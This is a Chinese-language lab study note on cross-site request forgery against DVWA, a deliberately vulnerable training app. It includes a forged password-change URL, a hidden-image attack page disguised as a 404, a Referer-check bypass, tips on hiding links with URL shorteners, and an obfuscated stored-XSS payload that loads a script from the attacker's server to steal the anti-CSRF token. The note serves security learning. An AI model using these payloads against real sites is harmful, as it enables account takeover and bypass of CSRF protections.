 ## dvwa 学习 csrf

### 参考资料

[DVWA-1.9全级别教程之CSRF](https://www.freebuf.com/articles/web/118352.html)

### csrf 简介

利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账 、改密等）。

CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

### 环境

dvwa 服务器 192.168.255.151:8081

攻击者vps  192.168.1.101

### 攻击步骤

#### 1.编写 payload

```http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#```

受害者点击链接之后页面会跳转

需要注意，**CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用搜狗浏览器点击这个链接，攻击是不会触发的，因为搜狗浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面**

可以使用短链接来隐藏URL（点击短链接，会自动跳转到真实网站）：
如 [百度短链接](https://dwz.cn)

实际攻击场景下只要目标服务器的域名不是ip，是可以生成相应短链接的。

#### 2.构造攻击页面

a) 在公网上传一个攻击页面，诱骗受害者去访问

用隐藏图片的src属性来发起恶意请求

下面是html代码

```

	<img src="http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>
	
	<h1>404<h1>
	
	<h2>file not found.<h2>

```

当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack



b) 服务端验证了 host与 referer，使referer必须包含host

应对：构造文件名为 服务器名

可以将攻击页面命名为192.168.255.151.html ，页面放在攻击者vps上。

c) High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。


由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.255.151中，才有可能完成攻击

```ALTER TABLE guestbook MODIFY name VARCHAR(190);```


	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/g.js');
	document.getElementsByTagName('head')[0].appendChild(b);">

这一步操作和high级别存储型xss一样，如图，获取到token。
![](token.png)


可见csrf要和xss结合使用才能发挥最大效果。  但实际是否会存在一个时间差，获取到token了，如何监控？如何即时诱导用户是以后该思考的问题